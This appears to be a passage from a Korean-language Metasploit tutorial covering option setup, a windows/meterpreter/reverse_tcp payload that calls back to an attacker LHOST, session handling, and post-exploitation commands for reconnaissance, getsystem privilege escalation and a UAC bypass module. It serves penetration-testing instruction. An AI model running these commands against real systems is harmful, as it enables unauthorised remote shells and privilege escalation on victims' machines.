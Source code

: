 **옵션 설정 예시**
```bash
# 옵션 확인
options
show options

# 변수 설정
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50

# 페이로드 선택
set PAYLOAD windows/meterpreter/reverse_tcp

# 모듈 실행
run
exploit
```

**세션 관리**
```bash
# 활성 세션 확인
sessions

# 세션 상호작용
sessions -i 1

# 세션을 백그라운드로
background
```


## Post-exploitation

Meterpreter 세션에서 수행할 수 있는 주요 활동:

### 정보 수집
```bash
# 시스템 정보
meterpreter> sysinfo

# 사용자 정보
meterpreter> getuid

# 네트워크 정보
meterpreter> ifconfig

# 프로세스 목록
meterpreter> ps
```

### 권한 상승
```bash
# getsystem 시도
meterpreter> getsystem

# UAC 우회 모듈 사용
run post/windows/escalate/bypassuac
```
